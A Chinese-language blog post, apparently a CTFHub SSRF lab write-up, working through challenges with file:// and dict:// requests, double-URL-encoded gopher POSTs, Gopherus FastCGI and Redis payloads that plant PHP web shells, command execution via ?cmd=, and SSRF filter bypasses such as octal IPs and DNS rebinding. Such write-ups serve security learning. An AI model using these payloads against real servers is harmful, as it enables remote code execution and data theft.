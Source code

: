 ```yaml
---
layout: post
title: CTFHub Web SSRF
subtitle: CTFHub Web SSRF
date: 2023-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

## 1. SSRF

### 1.1. 内网访问

访问 `[http://127.0.0.1/flag.php](http://127.0.0.1/flag.php)`

### 1.2. 伪协议读取文件

```url
http://127.0.0.1/flag.php
```

读取到？？？说明文件存在

```url
php://filter/read=convert.base64-encode/resource=http://127.0.0.1/flag.php
#都失败，尝试file 以绝对路径读取
file:///var/www/html/flag.php
# 成功读取
```

### 1.3. 端口扫描

```url
dict://127.0.0.1:8080
```

bp 抓包设置 payload

![image](https://img.ghostliner.top/bDrLb5.png)

8586 有报错响应

![image](https://img.ghostliner.top/yPlCCB.png)

![image](https://img.ghostliner.top/Vbh1mE.png)

### 1.4. POST 请求

`http://127.0.0.1/flag.php`

![image](https://img.ghostliner.top/QlbERd.png)

填入 key 提交

![image](https://img.ghostliner.top/x9sNEU.png)

URL 二次编码，第一次 URL 编码后将 `%0A` 替换为 `%0D0A`

```http
POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520challenge-a4e82c2602cbeef6.sandbox.ctfhub.com%253A10800%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%253B%2520rv%253A140.0)%2520Gecko%252F20100101%2520Firefox%252F140.0%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252C*%252F*%253Bq%253D0.8%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.8%252Czh-TW%253Bq%253D0.7%252Czh-HK%253Bq%253D0.5%252Cen-US%253Bq%253D0.3%252Cen%253Bq%253D0.2%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AContent-Type%253A%2520application%252Fx-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-a4e82c2602cbeef6.sandbox.ctfhub.com%253A10800%250D%250AConnection%253A%2520close%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-a4e82c2602cbeef6.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250APriority%253A%2520u%253D0%252C%2520i%250D%250A%250D%250Akey%253Df16bc01bbf8a2ebfca9d9f7a01b7947e
```

![image](https://img.ghostliner.top/PMio40.png)

![image](https://img.ghostliner.top/4CK7Af.png)

### 1.5. 上传文件

![image](https://img.ghostliner.top/SptxW5.png)

添加 submit，提交 bp 抓包

![image](https://img.ghostliner.top/8LGHnz.png)

![image](https://img.ghostliner.top/26b8Pf.png)

第一次 URL 编码，并将 `%0A` 替换为 `%0D0A`

```http
POST%20%2Fflag.php%20HTTP%2F1.1%0D%0AHost%3A%20challenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%3A10800%0D%0AUser-Agent%3A%20Mozilla%2F5.0%20(Windows%20NT%2010.0%3B%20Win64%3B%20x64%3B%20rv%3A140.0)%20Gecko%2F20100101%20Firefox%2F140.0%0D%0AAccept%3A%20text%2Fhtml%2Capplication%2Fxhtml%2Bxml%2Capplication%2Fxml%3Bq%3D0.9%2C*%2F*%3Bq%3D0.8%0D%0AAccept-Language%3A%20zh-CN%2Czh%3Bq%3D0.8%2Czh-TW%3Bq%3D0.7%2Czh-HK%3Bq%3D0.5%2Cen-US%3Bq%3D0.3%2Cen%3Bq%3D0.2%0D%0AAccept-Encoding%3A%20gzip%2C%20deflate%0D%0AContent-Type%3A%20multipart%2Fform-data%3B%20boundary%3D----geckoformboundary51834e26d074966e704b418761d460d1%0D%0AContent-Length%3A%20266%0D%0AOrigin%3A%20http%3A%2F%2Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%3A10800%0D%0AConnection%3A%20close%0D%0AReferer%3A%20http%3A%2F%2Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%3A10800%2F%3Furl%3D127.0.0.1%2Fflag.php%0D%0AUpgrade-Insecure-Requests%3A%201%0D%0APriority%3A%20u%3D0%2C%20i%0D%0A%0D%0A------geckoformboundary51834e26d074966e704b418761d460d1%0D%0AContent-Disposition%3A%20form-data%3B%20name%3D%22file%22%3B%20filename%3D%22shell.php%22%0D%0AContent-Type%3A%20application%2Foctet-stream%0D%0A%0D%0A%3C%3Fphp%20echo%20123%3B%40eval(%24_POST%5B'code'%5D)%3B%3F%3E%0D%0A------geckoformboundary51834e26d074966e704b418761d460d1--
```

第二次 URL 编码

```http
POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520challenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%253A10800%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%253B%2520rv%253A140.0)%2520Gecko%252F20100101%2520Firefox%252F140.0%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252C*%252F*%253Bq%253D0.8%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.8%252Czh-TW%253Bq%253D0.7%252Czh-HK%253Bq%253D0.5%252Cen-US%253Bq%253D0.3%252Cen%253Bq%253D0.2%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----geckoformboundary51834e26d074966e704b418761d460d1%250D%250AContent-Length%253A%2520266%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%253A10800%250D%250AConnection%253A%2520close%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250APriority%253A%2520u%253D0%252C%2520i%250D%250A%250D%250A------geckoformboundary51834e26d074966e704b418761d460d1%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522shell.php%2522%250D%250AContent-Type%253A%2520application%252Foctet-stream%250D%250A%250D%250A%253C%253Fphp%2520echo%2520123%253B%2540eval(%2524_POST%255B'code'%255D)%253B%253F%253E%250D%250A------geckoformboundary51834e26d074966e704b418761d460d1--
```

![image](https://img.ghostliner.top/lh8WV5.png)

成功

![image](https://img.ghostliner.top/PtzdFG.png)

### 1.6. FastCGI 协议

安装 gopherus

```shell
git clone https://github.com/tarunkant/Gopherus.git
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
./install.sh
```

生成 exploit

```shell
python2 gopherus.py --exploit fastcgi
/var/www/html/index.php
echo PD9waHAgZXZhbCgkX1BPU1RbJ2NvZGUnXSk7Pz4= | base64 -d >/var/www/html/shell.php
```

![image](https://img.ghostliner.top/b5W2ZA.png)

进行一次 URL 编码

```http
_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2505%2505%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2503CONTENT_LENGTH134%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%2586%2504%2500%253C%253Fphp%2520system%2528%2527echo%2520PD9waHAgZXZhbCgkX1BPU1RbJ2NvZGUnXSk7Pz4%253D%2520%257C%2520base64%2520-d%2520%253E%2Fvar%2Fwww%2Fhtml%2Fshell.php%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

![image](https://img.ghostliner.top/52K3Us.png)

![image](https://img.ghostliner.top/nCFdDK.png)

蚁剑连接 `[http://challenge-ab6a103940705427.sandbox.ctfhub.com:10800/shell.php](http://challenge-ab6a103940705427.sandbox.ctfhub.com:10800/shell.php)` 成功

![image](https://img.ghostliner.top/UfQZcD.png)

### 1.7. Redis 协议

```url
http://challenge-2330ba3a9a6a7458.sandbox.ctfhub.com:10800/?url=dict://127.0.0.1:6379
```

gopherus 生成 exploit

![image](https://img.ghostliner.top/DQG6Gh.png)

url 编码

```http
gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252434%250D%250A%250A%250A%253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```

![image](https://img.ghostliner.top/I2Q7yK.png)

响应返回 504，访问 shell.php 成功

```url
http://challenge-2330ba3a9a6a7458.sandbox.ctfhub.com:10800/shell.php?cmd=ls
```

![image](https://img.ghostliner.top/i2e5HJ.png)

```html
?cmd=ls / ?cmd=cat /flag_eb4d87188e48c82b40fe59e7eb88ee74
```

![image](https://img.ghostliner.top/9BFiU5.png)

![image](https://img.ghostliner.top/yiAmiC.png)

### 1.8. URL Bypass

```html
?url=http://notfound.ctfhub.com@127.0.0.1/flag.php # 协议://user@url
```

![image](https://img.ghostliner.top/K5Juek.png)

### 1.9. 数字 IP Bypass

```html
?url=http://localhost/flag.php
```

![image](https://img.ghostliner.top/m01Wgk.png)

```html
8进制格式：0177.0.0.1 16进制格式：0x7F.0.0.1 10进制整数格式：2130706433
16进制整数格式：0x7F000001
```

### 1.10. 302 跳转 Bypass

```html
?url=http://localhost/flag.php
```

![image](https://img.ghostliner.top/DLpi1u.png)

### 1.11. DNS 重绑定 Bypass

```html
?url=http://www.baidu.com/index.html #可访问域名
```

添加 DNS A 记录为 127.0.0.1

```html
?url=http://local.ghostliner.top/flag.php
```

![image](https://img.ghostliner.top/euq74T.png)
